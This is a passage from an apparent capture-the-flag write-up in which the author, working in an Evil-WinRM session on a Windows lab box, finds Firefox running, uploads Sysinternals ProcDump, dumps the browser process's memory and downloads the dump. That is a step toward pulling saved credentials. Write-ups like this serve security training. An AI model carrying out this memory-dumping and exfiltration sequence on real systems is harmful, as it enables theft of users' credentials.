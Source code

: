     175      11     1508       6860               488   0 wininit                                                                                                                                                                                        
    286      13     2732      12920               560   1 winlogon                                                                                                                                                                                       
    344      16    10428      19688              3992   0 WmiPrvSE                                                                                                                                                                                       
    635      28    51756      66952       0.64   3120   0 wsmprovhost                                                                                                                                                                                    
    588      27   166464     184692       6.63   5044   0 wsmprovhost                                                                                                                                                                                    


*Evil-WinRM* PS C:\Users\Chase\Documents>
{% endhighlight %}

We can find out even though this is server, Firefox is running.
{% highlight shell %}
*Evil-WinRM* PS C:\Users\Chase\Desktop> get-process -name firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                                                                                                                                                    
-------  ------    -----      -----     ------     --  -- -----------                                                                                                                                                                                    
   1149      74   151660     190244      43.80   4908   1 firefox                                                                                                                                                                                        
    341      19     9952      37304       0.69   6024   1 firefox                                                                                                                                                                                        
    408      31    17036      62692       2.70   6256   1 firefox                                                                                                                                                                                        
    390      34    59020      90736     117.78   6564   1 firefox                                                                                                                                                                                        
    358      26    16360      37556       0.66   6728   1 firefox                                                                                                                                                                                        


*Evil-WinRM* PS C:\Users\Chase\Desktop> 
{% endhighlight %}

To obtain information from the process, we can use a tool <a href="https://docs.microsoft.com/en-us/sysinternals/downloads/procdump">Procdump</a>.<br>
Download it and extract, then upload the "procdump.exe" binary with a command "upload".
{% highlight shell %}
*Evil-WinRM* PS C:\Users\Chase\Documents> upload procdump.exe
Info: Uploading procdump.exe to C:\Users\Chase\Documents\procdump.exe

Data: 868564 bytes of 868564 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\Chase\Documents>
{% endhighlight %}

Then, execute the "procdump.exe".<br>
It generates a process file "C:\Users\Chase\Desktop\firefox.exe_191202_022858.dmp"
{% highlight shell %}
*Evil-WinRM* PS C:\Users\Chase\Desktop> ./procdump.exe -ma 6728 -accepteula

ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[02:28:58] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.exe_191202_022858.dmp
[02:28:58] Dump 1 writing: Estimated dump file size is 280 MB.
[02:29:02] Dump 1 complete: 281 MB written in 3.4 seconds
[02:29:02] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Desktop> 
{% endhighlight %}

Download the file to the localhost. "Evil-WinRM" has a command for that purpose.
{% highlight shell %}
*Evil-WinRM* PS C:\Users\Chase\Desktop> download firefox.exe_191202_022858.dmp
Info: Downloading C:\Users\Chase\Desktop\firefox.exe_191202_022858.dmp to firefox.exe_191202_022858.dmp

Info: Download successful!

*Evil-WinRM* PS C:\Users\Chase\Desktop>
{% endhighlight %}
